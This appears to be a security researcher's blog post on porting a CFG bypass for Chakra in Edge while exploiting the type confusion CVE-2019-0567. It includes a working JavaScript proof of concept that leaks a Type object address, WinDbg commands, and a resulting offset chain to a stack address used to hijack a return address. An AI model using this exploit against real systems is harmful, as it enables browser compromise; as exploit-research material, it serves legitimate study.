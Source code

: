 ```yaml
---
layout: post
title: Porting the leafInterpreterFrame CFG Bypass
subtitle: How to port a CFG Bypass between versions of Chakra.
cover-img: https://i.ytimg.com/vi/P_ri2uy9Hgs/maxresdefault.jpg
thumbnail-img: https://upload.wikimedia.org/wikipedia/commons/thumb/0/01/Sapta_Chakra%2C_1899_%28cropped%29.jpg/1024px-Sapta_Chakra%2C_1899_%28cropped%29.jpg
share-img: https://upload.wikimedia.org/wikipedia/commons/thumb/0/01/Sapta_Chakra%2C_1899_%28cropped%29.jpg/1024px-Sapta_Chakra%2C_1899_%28cropped%29.jpg
tags: [Chakra, CFG, Bypass]
excerpt: This post explains how to port a CFG Bypass between different versions of Chakra, specifically focusing on the leafInterpreterFrame.
---
```


## Introduction

I was attempting to bypass CFG while exploiting CVE-2019-0567. The bug is a type confusion which leads to arbitrary reading and writing of memory. To bypass CFG, we can leak an address from the stack using the following technique, [originally documented by ProjectZero](https://project-zero.issues.chromium.org/issues/42450395):

```
(RecyclableObject *)Var->type->javascriptLibrary->scriptContext->threadContext->leafInterpreterFrame
```

The offsets in the post, and most I could [find on the internet](https://www.richardosgood.com/posts/chakra-type-confusion/) are:
```
Type:                       +0x08
javaScriptLibrary:          +0x08
scriptContext:              +0x430
threadContext:              +0x5c0
leafInterpreterFrame        +0x8f8
```

But these were not valid for my version of Chakra.

## Getting the type object

To begin the porting, we need a simple PoC which writes the leaked address of the `Type` object.

```html
<html>

<body>
    <script>

        obj = {}
        obj.a = 1;
        obj.b = 2;
        obj.c = 3;
        obj.d = 4;
        obj.e = 5;
        obj.f = 6;
        obj.g = 7;
        obj.h = 8;
        obj.i = 9;
        obj.j = 10;

        dv1 = new DataView(new ArrayBuffer(0x100));
        dv2 = new DataView(new ArrayBuffer(0x100000));


        function opt(o, proto, value) {
            o.b = 1;

            let tmp = { __proto__: proto };

            o.a = value;
        }

        function exploit() {
            for (let i = 0; i < 2000; i++) {
                let o = { a: 1, b: 2 };
                opt(o, {}, {});
            }

            let o = { a: 1, b: 2 };

            opt(o, o, obj);
            o.c = dv1;
            obj.h = dv2;

            type_lo = dv1.getUint32(0x8, true);
            type_hi = dv1.getUint32(0xc, true);
            console.log("Type Address: 0x" + type_hi.toString(16) + type_lo.toString(16));

            Math.sin(0x1337);

        }

    </script>
    <div class="buttonbar">
        <input type="button" onclick="exploit()" value="Go" />
</body>

</html>
```

Open the file, attach to the MicrosoftEdgeCP.exe process with the largest Private Bytes, and set `bu chakra!Js::Math::Sin`.

Execute the PoC and watch the type address get printed to the console. 
![Type Address](/assets/img/type_address.png)

It will break into windbg.

![Initial WinDbg Breal](/assets/img/0type.png)

```
0:015> dqs 0x260ab640040 L4
00000260`ab640040  00000000`00000038
00000260`ab640048  00000260`ab5f3a00         <--- Pointer to the JavascriptLibrary Object
00000260`ab640050  00000260`ab614ee0
00000260`ab640058  00007ffb`181fa5b0 chakra!Js::RecyclableObject::DefaultEntryPoint
```

The JavascriptLibrary Pointer can be seen using either of the following commands. The `poi` may help you visualize how we are doing the pointer arithmetic from the initial pointer.

![alt text](/assets/img/1jslib.png)

We now need to find the offset from the JavascriptLibrary pointer to the ScriptContext pointer. We know from the other blogs that it is around +0x430. The following command will help us find it:

```
.for (r @$t0 = 0; @$t0 < 150; r @$t0 = @$t0 + 1) { .printf "Index: %d\n", @$t0; dqs poi(00000260`ab5f3a00 + @$t0 * 0x8) L1 }
```

The command loops through each pointer, dereferences it, and prints the symbol for the value - if there is one. 

![alt text](/assets/img/2forloop.png)

By searching for ScriptContext, we can see the offset at which the symbol appears:
![alt text](/assets/img/3scriptcontext.png)

We can then run `? 0n136 * 0x8` to reveal the updated offset to get from JavascriptLibrary to ScriptContext: `+0x440`

Now repeat the process for ThreadContext. It is roughly +0x5c0 so 200 pointers should do.

```
.for (r @$t0 = 0; @$t0 < 150; r @$t0 = @$t0 + 1) { .printf "Index: %d\n", @$t0; dqs poi(00000261`ac36c110+ @$t0 * 0x8) L1 }
```

![alt text](/assets/img/4threadcontext.png)

The ThreadContext Ptr is at offset `+0x370`. 

One final time for the stack address. This time we can look for addresses that fall within the range of the thread's stack. First run !teb to find the range:


![alt text](/assets/img/5teb.png)


```
dqs 00000260`9702fc60 L300
```

Then use Ctrl+F to search all the pointers for the start of the stack address: ``00000073`5d``. Be sure to add the backtick to match the output of dqs!

![alt text](/assets/img/6stackptr.png)

Finally, calculate the offset
```
0:015> ? 00000260`970301a0 - 00000260`9702fc60 
Evaluate expression: 1344 = 00000000`00000540
```

# Conclusion
The offsets from this blog are as follows:

```
type+0x8            = javascriptlib
javascriptlib+0x440 = scriptcontext
scriptcontext+0x370 = threadcontext
threadcontext+x540  = stackaddress
```

You can then use the stack address to search for a return address and overwrite to take control and bypass CFG.
